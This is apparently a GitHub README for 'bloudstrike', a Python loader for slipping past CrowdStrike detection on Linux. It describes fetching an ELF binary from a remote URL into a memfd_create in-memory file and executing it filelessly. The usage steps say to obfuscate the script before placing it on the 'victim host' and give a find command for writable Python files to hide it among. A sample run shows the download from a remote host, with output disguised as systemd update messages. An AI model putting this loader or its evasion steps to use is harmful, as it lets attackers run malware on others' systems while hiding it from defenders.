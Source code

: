 # bloudstrike - a (semi-retired) CS bypass loader
During several engagements, I dealt with CS on Linux servers. It was annoying because post-exploitation enumeration scripts would instantly be killed, and manual techniques were returning wack information. The script is insanely simple, and this isn't a profound or new method of execution by any means - but it helped me work around limited execution & detection. I didn't even expect ```memfd_create``` to work as opposed to other methods that are more stealthy. I can't speak for the specifics of detections, I just know my clients were telling me that it wasn't being detected by CS - and tbh that was good enough for me.

I have used this technique a lot over the course of the last year and a half, however, as of two months ago, this stopped working as an adequate bypass. In some cases, you can run it more than once and it still works - getting you to the point of being able to execute subsequent tools, but at that marker, you've already produced a lot of detection events.

I'm publishing this because it could give you an idea of some other techniques that might work. Since I don't have access to CS Linux, I can't test my latest techniques - but I've already started to use a different method.

# Technical Details
The script leverages fileless execution using ```memfd_create``` to load ELF binaries directly into memory. It does so by calling linux syscall ```319``` to allocate a memory-only file descriptor ```(FD)```. This prevents writing the malware on disk.

A target ELF binary, is downloaded from a remote URL using ```urllib.request```and writes the ELF binary contents into the in-memory FD ``/proc/self/fd/{fd}``. 

Lastly, a new process is spawned by calling ```os.fork``` and subsequently calling```os.execve()```to directly load the binary from memory into the new process and execute it.

# Limitations
You shouldn't have any issues running it as a regular user, since ```os.fork()``` will create a process that is an exact same copy of the parent loader, and inherit the same UID, GID, and privs. Additionally, this is only going to be a good as your ELF - no matter how you may rework this loader. However, you might run into some prevention methodology. I don't want to get into the heuristics of all of the detection mechanisms in place that can stop this from working, as it might affect my other loaders. Keep in mind that EDR is now the main limitation. In some cases there *could* be AppArmor/SELinux rules that prevent this from running, but ya know - there are always ways around that.

# OS Support (Tested)
- Ubuntu 20.04, 22.04
- Debian 10, 11
- Kali Linux
# Probably Works On
- Most Linux distros with Kernel 3.17+, Alpine Linux (with ```glibc```), CentOS 7+ if you can enable ```memfd_create```
# Probably Wont Work On
- Older Linux Kernels <3.17
- Qubes OS or Hardened Alpine Linux builds
- Probably if you're running inside of Docker, LXC, or Kubernetes.

## Usage
1. Before you do any of this, please ensure that you have outbound on the victim host, since you're pulling a remote URL (obv). If you can, I'd recommend first pulling this down somewhere you can edit it [basically I don't recommend cloning this repo onto the victim host direct]. Take out the ASCII, modify print strings, change variable names, etc. Basically, obfuscate.<br><br>
```git clone https://github.com/johnjhacking/bloudstrike```<br>
```nano bloudstrike.py```<br>
<--make your edits and save--><br><br>
2. If you have TTY, you can easily just make the script while on the host. I'll leave the "where to put it" to your best discretion, reminding you that it'll be the parent execution process that shows in a proclist. I mean...a lot of ways to fry a fish.<br>
```find / -type f -name "*.py" \( -perm -u=w -o -perm -g=w -o -perm -o=w \) 2>/dev/null```<br>
3. Host the ELF file on a domain. Chmod the loader and execute.<br>
```chmod +x whatever.py```<br>OR if you went the find route, simply execute.<br>
```
└─$ python3 whatever.py -u https://x.x.x.x/systemd-helper.elf

            ___----------___
         _--                ----__
        -                         ---_
       -___    ____---_              --_
   __---_ .-_--   _ O _-                - 
  -      -_-       ---                   -
 -   __---------___                       -
 - _----                                  -
  -     -_                                 _
  `      _-                                 _
        _                           _-_  _-_ _
       _-                   ____    -_  -   --
       -   _-__   _    __---    -------       -
      _- _-   -_-- -_--                        _
      -_-                                       _
     _-                                          _
     - all my h0mies h8 bloudstrike

[systemd-helper] Allocating service descriptor...
[systemd-helper] Retrieving update package from: https://x.x.x.x/systemd-helper.elf
[systemd-helper] Processing system update...
[systemd-helper] Starting maintenance task...
[systemd-helper] Monitoring background process (PID: 2880622)...
[systemd-helper] Running scheduled service...
```
